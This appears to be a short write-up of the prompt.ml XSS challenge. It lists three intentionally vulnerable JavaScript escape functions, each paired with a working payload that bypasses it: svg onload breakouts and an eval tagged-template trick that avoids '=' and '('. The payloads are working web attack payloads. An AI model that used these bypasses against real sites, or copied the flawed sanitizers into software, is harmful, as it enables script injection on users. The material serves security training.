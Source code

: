 # prompt.ml

- Task

```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```js
"><svg onload=prompt(1)> <!--
```

-Task

```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```js
<svg onload=prompt(1) // 
```

- Task

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```js
<script>eval.call`${'prompt\x281\x29'}`</script>
```

